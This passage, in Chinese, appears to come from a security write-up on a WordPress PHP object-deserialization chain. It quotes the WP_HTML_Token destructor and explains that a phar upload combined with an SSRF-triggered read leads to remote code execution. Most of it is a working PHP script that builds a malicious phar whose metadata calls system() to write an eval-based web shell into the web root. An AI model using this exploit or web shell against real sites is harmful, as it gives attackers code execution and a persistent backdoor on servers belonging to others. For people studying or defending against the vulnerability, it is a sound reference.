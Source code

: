 ```plain
    public function __destruct() {
        if ( is_callable( $this->on_destroy ) ) {
            call_user_func( $this->on_destroy, $this->bookmark_name );
        }
    }
}
```

> 又是大部分反序列化的罪魁祸首`call_user_func`，`WP_HTML_Token`类的销毁方法存在`call_user_func()`，而 `$this->on_destroy`和`$this->bookmark_name`都是可自定义控制的 (跟留了一个后门似的)

组合起来，首先可以通过插件上传一个 phar 文件，再通过`SSRF`中`readable()` 触发`phar`导致 RCE。

```plain
<?php
namespace
{
    class WP_HTML_Token
    {
        public $bookmark_name;
        public $on_destroy;

        public function __construct($bookmark_name, $on_destroy)
        {
            $this->bookmark_name = $bookmark_name;
            $this->on_destroy = $on_destroy;
        }
    }

    $a = new WP_HTML_Token('echo \'<?php eval($_POST[1]);?>\' > /var/www/html/aaa.php', 'system');

    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89A<?php XXX __HALT_COMPILER(); ?>");
    $phar->setMetadata($a);
    $phar->addFromString("aaa.txt", "test");
    $phar->stopBuffering();
}
?>
```

